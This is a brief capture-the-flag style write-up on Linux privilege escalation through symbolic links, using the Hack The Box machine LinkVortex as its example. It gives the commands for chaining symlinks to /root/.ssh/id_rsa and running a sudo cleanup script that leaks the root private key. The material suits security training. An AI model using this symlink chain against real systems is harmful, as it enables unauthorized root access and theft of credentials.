

# Symbolic Link

## Overview

During Linux privilege escalation, it is important to consider how symbolic links may be used to redirect file access or manipulate privileged processes. If a privileged service follows symbolic links without proper validation, it may be possible to trick it into interacting with sensitive files or executing unintended actions. This can sometimes be used to escalate privileges depending on system context and permission

---
Example from LinkVortex (HTB):

Sudo 
```
sudo -l
```


Reading the script shows that we can create a symbolic link from any file (/root/.ssh/id_rsa) to a png file 
However we cannot create a direct link as it will be blocked so we create a chain instead. 

First we create a link between the id_rsa file and a .txt file
```
ln -s /root/.ssh/id_rsa test.txt
```

Now we create the link to the png file
```
ln -s /home/bob/test.txt test.png
```

This allows us to bypass any security 
The following command leaks the contents before quarantining the file since the CHECK_CONTENT flag is set to true
```
sudo CHECK_CONTENT=true /usr/bin/bash /opt/ghost/clean_symlink.sh /home/bob/test.png
```
